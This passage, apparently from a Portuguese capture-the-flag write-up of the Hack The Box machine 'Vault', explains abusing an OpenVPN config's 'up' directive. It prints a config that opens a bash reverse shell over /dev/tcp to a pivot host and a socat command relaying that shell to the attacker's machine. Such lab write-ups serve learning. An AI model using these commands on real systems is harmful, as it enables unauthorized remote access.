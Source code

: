 Encontramos dois links úteis

> https://www.bleepingcomputer.com/news/security/downloading-3rd-party-openvpn-configs-may-be-dangerous-heres-why/

e

> https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da

Aqui está como podemos explorar

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-vault/V_open2.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-vault/V_open3.png)

A 'vulnerabilidade' está no comando UP, que é executado no bash, então se colocarmos um reverse shell, possivelmente ele executará

Bom, mas vamos lá, pra não confundir... Essa máquina que eu vou explorar agora, é outra máquina, beleza, até ai eu entendi, mas oq acontece é que ela não enxerga a minha Kali então a conexão vai ser pra Dave, e o reverse shell é pra Dave

```
remote 192.168.122.1
nobind
dev tun
script-security 2
up "/bin/bash -c '/bin/bash -i > /dev/tcp/192.168.122.1/9002 0<&1 2>&1&'"
```

Não seria necessário esse passo, estou apenas demonstrando a utilização do `socat`, a conexão iria vir direto pra porta 9002, como vou mostrar abaixo

Vou utilizar outra ferramenta, a `socat`, que também serve para pivoting

Então passamos essa ferramenta para a máquina `Dave`, ele é um binário também, que podemos baixar dos binários estáticos

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-vault/V_socat.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-vault/V_socat1.png)

> https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-vault/V_socat2.png)

Agora executamos ela

`./socat TCP-LISTEN:9002,bind=192.168.122.1,fork,reuseaddr TCP:localhost:9001`

Aqui está dizendo mais ou menos isso... Toda conexão que for para a porta 9002, vai ser direcionada para a minha local (Kali), porta 9001, então se um shell bater na 9002 Dave, vai ser mandado pra 9001 Kali...

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-vault/V_socat3.png)

Então executamos o exploit no OpenVPN
